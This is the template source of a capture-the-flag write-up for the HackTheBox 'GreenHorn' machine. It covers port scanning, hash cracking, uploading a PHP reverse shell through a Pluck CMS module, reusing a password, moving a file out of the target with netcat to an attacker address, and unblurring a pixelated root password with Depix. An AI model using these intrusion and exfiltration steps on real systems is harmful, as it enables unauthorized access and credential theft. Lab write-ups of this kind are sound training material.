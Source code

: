 {% from "macros.html" import console, image, text, code, list, link, header, script, imageModal %}

{{imageModal()}}

{{header("Enumeration", "enumeration")}}

{{text("We start off by scanning all the ports.")}}

{{console("nmap -T5 -p- -sC -sV 10.10.11.25", "Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-20 18:23 CET
Warning: 10.10.11.25 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.11.25
Host is up (0.066s latency).
Not shown: 65093 closed tcp ports (reset), 438 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 57:d6:92:8a:72:44:84:17:29:eb:5c:c9:63:6a:fe:fd (ECDSA)
|_  256 40:ea:17:b1:b6:c5:3f:42:56:67:4a:3c:ee:75:23:2f (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://greenhorn.htb/
3000/tcp open  ppp?")}}

{{text("We find 2 open ports:")}}

{{list(['22 (SSH)', '80 (HTTP)'])}}

{{text("When we try to go to the web site, it redirects us to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>http://greenhorn.htb</code>. We add that entry to our <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/etc/hosts</code> file and visit the page once more.")}}

{{image("../../static/writeups/greenhorn/images/000001.jpg")}}

{{text("I continued with directory enumerating, and was able to find a login page.")}}

{{console("ffuf -u http://greenhorn.htb/FUZZ -w /usr/share/wordlists/dirb/big.txt -e .php -fw 1", "
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
...
________________________________________________

admin.php               [Status: 200, Size: 4528, Words: 288, Lines: 131, Duration: 62ms]
data                    [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 60ms]
docs                    [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 61ms]
files                   [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 53ms]
images                  [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 55ms]
install.php             [Status: 200, Size: 4537, Words: 284, Lines: 131, Duration: 65ms]
login.php               [Status: 200, Size: 1242, Words: 73, Lines: 32, Duration: 68ms]
requirements.php        [Status: 200, Size: 4549, Words: 286, Lines: 131, Duration: 73ms]
robots.txt              [Status: 200, Size: 47, Words: 4, Lines: 3, Duration: 57ms]
:: Progress: [40938/40938] :: Job [1/1] :: 615 req/sec :: Duration: [0:01:12] :: Errors: 12 ::")}}

{{text("Since I had no credentials, and couldn't find anything else on the site, I proceeded with checking the port <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>3000</code>")}}

{{image("../../static/writeups/greenhorn/images/000002.jpg")}}

{{text("After finding the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>GreenHorn</code> repository, I started looking through the files.")}}

{{text("I was able to find a <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>pass.php</code> file with what looked like a hash.")}}

{{image("../../static/writeups/greenhorn/images/000003.jpg")}}

{{text("I save it into a file and used <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>john</code> to crack it.")}}

{{console("john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA512", "Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA512 [SHA512 256/256 AVX2 4x])
Warning: poor OpenMP scalability for this hash type, consider --fork=8
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
[REDACTED]        (?)     
1g 0:00:00:00 DONE (2024-12-20 18:58) 20.00g/s 163840p/s 163840c/s 163840C/s 123456..whitetiger
Use the '--show' option to display all of the cracked passwords reliably
Session completed. ")}}

{{text("Now with a password, I returned to the login page and tried logging in.")}}

{{image("../../static/writeups/greenhorn/images/000004.jpg")}}

{{text("Password was correct and now we had access to the admin panel.")}}

{{text("On the bottom of the site, we notice that the version is <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>pluck 4.7.18</code>.")}}

{{text("Let's try to find a exploit related to this version.")}}

{{text("A simple search and I came across this.")}}

{{link("https://www.exploit-db.com/exploits/51592", "https://www.exploit-db.com/favicon.ico", "Pluck v4.7.18 - Remote Code Execution (RCE)")}}

{{text("For some reason, I couldn't get the exploit to successfully log in, so we will do it manually.")}}

{{text("We proceed to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>manage modules</code> and click on <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>install a module</code>.")}}

{{text("Now we navigate to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>revshells.com</code> and get ourselves a <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>pentest monkey</code> shell.")}}

{{text("Just like the exploit, we first have to zip it before uploading it.")}}

{{console("zip shell.zip shell.php")}}

{{text("Now we set up a listener and we can upload our archive.")}}

{{image("../../static/writeups/greenhorn/images/000005.jpg")}}

{{text("After successfully uploading it, we should instantly get a connection.")}}

{{image("../../static/writeups/greenhorn/images/000006.jpg")}}

{{header}}

{{text("I spend a lot of time looking through the file system, but I couldn't find anything.")}}

{{text("Then I remembered that one of the users, <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>junior</code>, was mentioned before.")}}

{{text("Since he was a 'junior', I wondered if we reused his passwords.")}}

{{image("../../static/writeups/greenhorn/images/000007.jpg")}}

{{text("And I was right, he used the same password that allowed us to log in into the Pluck CMS.")}}

{{header}}

{{text("I noticed a <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>.pdf</code> file in my user's home directory. I downloaded it onto my machine.")}}

{{text("My machine.")}}

{{console("nc -nlvp 1235 > 'Using OpenVAS.pdf'")}}

{{text("Victim's machine.")}}

{{console("nc 10.10.14.156 1235 < 'Using OpenVAS.pdf'")}}

{{text("Having downloaded the file, I opened it.")}}

{{image("../../static/writeups/greenhorn/images/000008.jpg")}}

{{text("It is a note about the installation of OpenVAS. There also is a password in the note, but it seems to be blurred out.")}}

{{text("I spend a lot of time stuck on this part, but finally I found the right tool for the job.")}}

{{link("https://github.com/spipm/Depix", "../../static/writeups/images/github.jpg", "Depix")}}

{{text("'Recovering plaintext from pixelized screenshots' sounded exactly like the thing we needed. I cloned the repository onto my machine.")}}

{{text("We needed to save it as an image, we can do so by simply right-clicking the pixelized text.")}}

{{image("../../static/writeups/greenhorn/images/000009.jpg")}}

{{text("After using the tool we downloaded, we should get the correct password.")}}

{{console("python3 depix.py -p ../image.png -s images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png -o ./output.png", "2024-12-20 20:02:12,388 - Loading pixelated image from ../image.png
2024-12-20 20:02:12,398 - Loading search image from images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png
...
2024-12-20 20:03:19,707 - Saving output image to: ./output.png")}}

{{text("We now open the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>output.png</code> file and use the password to log in as root.")}}

{{image("../../static/writeups/greenhorn/images/000010.jpg")}}

{{script()}}